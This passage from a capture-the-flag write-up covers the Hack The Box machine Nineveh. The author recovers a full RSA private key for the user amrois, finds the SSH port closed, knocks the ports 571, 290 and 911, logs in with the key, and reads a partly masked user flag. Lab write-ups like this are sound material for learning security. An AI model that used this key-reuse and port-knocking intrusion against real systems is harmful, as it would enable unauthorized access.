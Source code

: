 ```bash
-----END RSA PRIVATE KEY-----
...
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
...
```

This looks like the private SSH key for `amrois@nineveh.htb`, we can try using this key to login.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ echo -n '-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----' > amrois.key
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ chmod 600 amrois.key
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ ssh -i amrois.key amrois@nineveh.htb
ssh: connect to host nineveh.htb port 22: Connection timed out
```

As expected the SSH port is closed (otherwise it would have shown as open during the NMAP scan). We'll probably need the port knocking sequence we found earlier in `/var/mail/amrois`, `571` `290` `911`.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ knock 10.10.10.43 571:tcp 290:tcp 911:tcp
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ ssh -i amrois.key amrois@10.10.10.43
amrois@nineveh:~$ cat user.txt
82a864f*************************
```
